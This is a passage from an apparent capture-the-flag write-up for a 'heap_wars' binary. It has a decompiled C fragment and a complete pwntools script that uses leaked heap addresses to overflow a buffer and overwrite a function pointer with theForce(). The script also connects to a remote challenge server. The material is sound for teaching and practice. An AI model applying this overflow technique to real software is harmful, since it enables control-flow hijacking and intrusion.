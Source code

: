 ```c
00401276              break
00401276          
0040125e          putchar(c: sx.d(rax_2))
0040125e      
00401286      return fclose(fp)
```

Finally what we have to do is calculate the distance between `rax_2` and `rax_3` then overwrite `rax_3` with the address of 
`theForce()` function using the buffer overflow. Since the pointers are leaked all we have to do is 
`int_function_address - int_data_address` to get the offset.

```python
  GNU nano 8.2                                                               exploit.py                                                                         
from pwn import *

filename = "heap_wars"

elf = ELF(filename)
#context.log_level = 'debug'
context.binary = elf

if args.REMOTE :
    p = remote('94.72.112.248', 1337)
else:
    p = process(filename)

p.recvuntil(b'Enter your choice:')
p.sendline(b'2')
p.recvuntil(b"Jedi data: ")
data_address = p.recvline()
int_data_address = int(data_address.strip(), 16)

p.recvuntil(b'Enter your choice:')
p.sendline(b'3')
p.recvuntil(b"Jedi bounty: ")
function_address = p.recvline()
int_function_address = int(function_address.strip(), 16)

the_force_function_address = elf.symbols['theForce']

padding = b'A' * (int_function_address - int_data_address)
payload = padding + p64(the_force_function_address)

p.recvuntil(b'Enter your choice:')
p.sendline(b'1')
p.recvuntil(b'Enter your Jedi code:')
p.sendline(payload)

p.interactive()
```
